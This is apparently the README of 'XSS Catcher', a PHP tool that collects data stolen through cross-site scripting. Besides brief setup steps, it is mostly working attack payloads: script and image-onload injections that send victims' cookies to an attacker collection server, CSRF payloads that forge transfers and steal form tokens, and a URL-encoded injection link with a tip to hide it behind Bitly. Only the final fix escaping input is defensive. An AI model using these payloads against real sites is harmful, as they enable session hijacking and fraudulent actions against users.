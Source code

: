 # XSS Catcher

Simple API for storing all incoming XSS requests.

Every incoming XSS request must contain the `site` and `data` (i.e. stolen data) parameter. Optionally, you can add the `info` parameter.

This topic is very broad and only few client side injections were covered.

Tested on XAMPP for Windows v7.3.7 (64 bit) with Chrome v77.0.3865.120 (64-bit) and Firefox v70.0 (64-bit).

Made for educational purposes. I hope it will help!

## How to Run

Import ['\\db\\xss_catcher.sql'](https://github.com/ivan-sincek/xss-catcher/blob/master/db/xss_catcher.sql) to your database server.

Copy all the content from ['\\src\\'](https://github.com/ivan-sincek/xss-catcher/tree/master/src) to your server's web root directory (e.g. to '\\xampp\\htdocs\\' on XAMPP).

Change the database settings inside ['\\src\\php\\config.ini'](https://github.com/ivan-sincek/xss-catcher/tree/master/src/api/php/config.ini) as necessary.

Navigate to your database panel with your preferred web browser.

## Cross-Site Scripting

**Cookies must be missing the HttpOnly flag in order for you to steal them.**

Steal HTTP cookies by injecting the following JavaScript code:

```xhtml
<script>var xhr = new XMLHttpRequest(); xhr.open('POST', 'https://myserver.com/api/store.php', true); xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded'); xhr.send('site=' + encodeURIComponent(location.hostname + location.pathname) + '&data=' + encodeURIComponent(document.cookie));</script>
```

Example above will send an HTTP POST request with user-defined parameters as form-data. Opt for this example whenever possible.

To send user-defined parameters as form-data you must add the `Content-Type: application/x-www-form-urlencoded` HTTP request header.

Steal HTTP cookies by injecting the following HTML code:

```xhtml
<img src="https://github.com/favicon.ico" onload="var xhr = new XMLHttpRequest(); xhr.open('POST', 'https://myserver.com/api/store.php', true); xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded'); xhr.send('site=' + encodeURIComponent(location.hostname + location.pathname) + '&data=' + encodeURIComponent(document.cookie));" hidden="hidden">

<img src="https://github.com/favicon.ico" onload="this.src='https://myserver.com/api/store.php?site=' + encodeURIComponent(location.hostname) + location.pathname + '&data=' + encodeURIComponent(document.cookie)" hidden="hidden">
```

Second example above will send an HTTP GET request with data in a query string (i.e. URL).

## Cross-Site Request Forgery

**Try to figure out what kind of data does the backend server accept before you try to forge anything. Is it query string, form-data, raw data encoded in JSON, etc.?**

Plant a forged request by injecting the following JavaScript code:

```xhtml
<script>var xhr = new XMLHttpRequest(); xhr.open('POST', 'https://victim.com/transfer.php', true); xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded'); xhr.send('recipient=eve&amount=9000');</script>
```

Plant a forged request whilst stealing a web form token by injecting the following JavaScript code:

```xhtml
<script>window.onload = function() { var xhr = new XMLHttpRequest(); xhr.open('POST', 'https://victim.com/transfer.php', true); xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded'); xhr.send('recipient=eve&amount=9000&token=' + encodeURIComponent(document.getElementsByName('token')[0].value)); }</script>

<script>window.onload = function() { var xhr = new XMLHttpRequest(); xhr.open('GET', 'https://victim.com/transfer.php?recipient=eve&amount=9000&token=' + encodeURIComponent(document.getElementsByName('token')[0].value), true); xhr.send(); }</script>
```

To steal a web form token (or any other web form data) you must wait for the web form to fully render/load. You can do that by calling the `window.onload` event.

Plant a forged request by injecting the following CSS code:

```xhtml
<style>div { background-image: url('https://victim.com/transfer.php?recipient=eve&amount=9000'); }</style>
```

## Proof of Concept - No Input Sanitization

Vulnerable code:

```xhtml
<script>var language = '<?php if (isset($_GET["language"])) { echo $_GET["language"]; } ?>';</script>
```

Expected use:

```xhtml
<script>var language = 'en';</script>
```

User-supplied data:

```fundamental
en'; var xhr = new XMLHttpRequest(); xhr.open('POST', 'https://myserver.com/api/store.php', true); xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded'); xhr.send('site=' + encodeURIComponent(location.hostname + location.pathname) + '&data=' + encodeURIComponent(document.cookie)); var test = '
```

**Always make sure to properly close the surrounding code.**

Encode your code to the URL encoded format [here](https://www.urlencoder.org).

Final XSS request:

```fundamental
https://localhost/welcome.php?language=en%27%3B%20var%20xhr%20%3D%20new%20XMLHttpRequest%28%29%3B%20xhr.open%28%27POST%27%2C%20%27https%3A%2F%2Fmyserver.com%2Fapi%2Fstore.php%27%2C%20true%29%3B%20xhr.setRequestHeader%28%27Content-Type%27%2C%20%27application%2Fx-www-form-urlencoded%27%29%3B%20xhr.send%28%27site%3D%27%20%2B%20encodeURIComponent%28location.hostname%20%2B%20location.pathname%29%20%2B%20%27%26data%3D%27%20%2B%20encodeURIComponent%28document.cookie%29%29%3B%20var%20test%20%3D%20%27
```

You can also shorten your query string (i.e. URL) with [Bitly](https://bitly.com).

Solution:

```xhtml
<script>var language = '<?php if (isset($_GET["language"])) { echo htmlentities($_GET["language"], ENT_QUOTES, "UTF-8"); } ?>';</script>
```

## Images

![Database](https://github.com/ivan-sincek/xss-catcher/blob/master/img/db.jpg)
